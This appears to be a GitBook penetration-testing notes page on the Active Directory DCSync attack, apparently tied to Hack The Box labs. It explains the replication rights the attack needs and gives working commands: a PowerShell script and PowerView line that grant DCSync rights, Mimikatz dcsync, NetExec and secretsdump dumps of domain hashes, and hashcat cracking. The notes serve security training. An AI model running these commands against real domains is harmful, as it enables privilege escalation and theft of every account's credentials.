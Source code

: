 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## Concept

AD environments often use multiple DCs for redundancy. These DCs synchronize using **Directory Replication Service Remote Protocol (DRSR)**. **DCSync** is a late-phase attack that allows an attacker to **impersonate a DC** and then dump `ntds.dit`.

> _DCs do **not verify the source** of a replication request. They only check that the **Security Identifier (SID)** used has appropriate privileges._

To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights**:

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

These rights are **granted by default** to `Domain Admins`, `Enterprise Admins`, and `Administrators`.

> _If we have **`WriteDacl`** rights over an account, we can assign **DCSync rights** to it. For instance, the `Windows Exchange Permissions`_ _group has **DCSync rights**. For an example of a DCSync attack using the `WriteDacl` permission see_ [_Forest_](../../../boxes/easy/forest.md#privilege-escalation)_._

## Attack

{% tabs %}
{% tab title="Windows" %}
We can enumerate permissions using an elevated CMD or PS session.

```powershell
# Command Prompt
dsacls "DC=domain,DC=local"
# PowerShell
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```

We can assign DCSync rights manually or automatically using [PowerView](../../../tools/active-directory/powerview.md) or `DCSync.py`.

> _The manual way is explained_ [_here_](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)_._

{% code overflow="wrap" %}
```powershell
# Manually
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"

# PowerView
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}

Once the rights have been assigned, we can perform the attack with [`mimikatz`](../../../tools/active-directory/mimikatz.md).

```powershell
# Mimikatz (PS script)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# Mimikatz (binary)
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator
```

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}


We can assign DCSync rights using `DCSync.py`.

{% code overflow="wrap" %}
```bash
# DCSync.py
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}

We can also perform the attack with [`NetExec`](dcsync.md#netexec) or [Impacket](../../../tools/active-directory/impacket.md)'s `secretsdump` script.

```bash
# NetExec
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator

# Impacket's secretsdump
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```

> _For an example of a DCSync attack using `DCSync.py` and `secretsdump.py` see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_. For an example of a DCSync attack using NetExec see_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack)_._

Finally, we can crack the hash using [`hashcat`](../../../tools/passwords/hashcat.md) on our attacking machine.

{% code overflow="wrap" %}
```bash
hashcat -m 1000 hashes.dcsync rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

* An in-depth article about DCSync from Altered Security ([article](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection))
* What `impacket-secretsdump` does behind the scenes ([video](https://www.youtube.com/watch?v=QfyZQDyeXjQ))

